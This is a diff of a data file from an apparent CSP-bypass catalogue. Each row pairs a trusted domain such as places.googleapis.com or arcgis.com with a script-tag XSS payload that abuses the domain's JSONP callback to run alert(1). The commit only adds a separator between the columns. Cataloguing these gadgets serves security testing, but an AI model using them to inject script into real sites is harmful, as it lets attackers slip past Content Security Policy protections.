

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/data.tsv
+++ b/data.tsv
-row 224: places.googleapis.com <script src="https://places.googleapis.com/v1/places:autocomplete?callback=alert(1)"></script>
+row 224: places.googleapis.com | <script src="https://places.googleapis.com/v1/places:autocomplete?callback=alert(1)"></script>
-row 254: searchserverapi1.com <script src="https://searchserverapi1.com/getresults?api_key=4I5Z1z9w9Z&&output=jsonp&callback=alert(1)"></script>
+row 254: searchserverapi1.com | <script src="https://searchserverapi1.com/getresults?api_key=4I5Z1z9w9Z&&output=jsonp&callback=alert(1)"></script>
-row 325: www.arcgis.com <script src="https://www.arcgis.com/sharing/rest/portals/self?f=json&callback=alert(1)"></script>
+row 325: www.arcgis.com | <script src="https://www.arcgis.com/sharing/rest/portals/self?f=json&callback=alert(1)"></script>
-row 347: www.juicer.io <script src="https://www.juicer.io/api/feeds/1?callback=alert(1)"></script>
+row 347: www.juicer.io | <script src="https://www.juicer.io/api/feeds/1?callback=alert(1)"></script>
```
Also changed, not shown: 16 added rows and 16 removed rows elsewhere in this file.
